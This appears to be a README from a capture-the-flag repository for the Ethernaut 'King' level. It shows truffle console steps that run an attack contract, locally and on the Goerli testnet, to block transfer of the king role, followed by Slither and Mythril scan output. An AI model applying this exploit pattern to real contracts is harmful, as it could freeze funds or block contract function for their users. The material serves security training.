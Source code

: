 # King

[King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)


Block transfer of "king" role by rejecting transfers.


<BR />


## Test Attack

```BASH
truffle develop
```

```JS
migrate

k1 = await King.deployed()
(await k1.prize()).toString()
await k1._king()
await web3.eth.sendTransaction({from: accounts[9], to: k1.address, value: 15})
await k1._king()


k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
await k2.youKing()
```

<BR />


## Live Attack

```BASH
truffle console --network goerli
```

```JS
k1 = await King.at('0x86a68e10f55baccC4d979dE3b389d3b38B5d1Fe6')
(await k1.prize()).toString()
await k1._king()

k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
sender = accounts[5]
await k2.youKing({from: sender})
```


<BR />


## Vulnerability Testing Tools


<BR />

### Slither

__Bug Detect:__ Vulnerability classifed as "informational".

```BASH
slither ./contracts/King.sol  --truffle-ignore-compile  --exclude-optimization 
```

```
Reentrancy in King.receive() (contracts/King.sol#16-21):
        External calls:
        - address(king).transfer(msg.value) (contracts/King.sol#18)
        State variables written after the call(s):
        - king = msg.sender (contracts/King.sol#19)
        - prize = msg.value (contracts/King.sol#20)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4
./contracts/King.sol analyzed (1 contracts with 76 detectors), 4 result(s) found
```

<BR />

### Mythril

Reentrancy not detected

```BASH
docker run --rm `
        -v /c/temp/QuickTest/blockchain-ctf/ethernaut/06_king:/share `
        mythril/myth `
        analyze /share/contracts/King.sol `
        --solv 0.8.0
```

```
The analysis was completed successfully. No issues were detected
```

<BR />
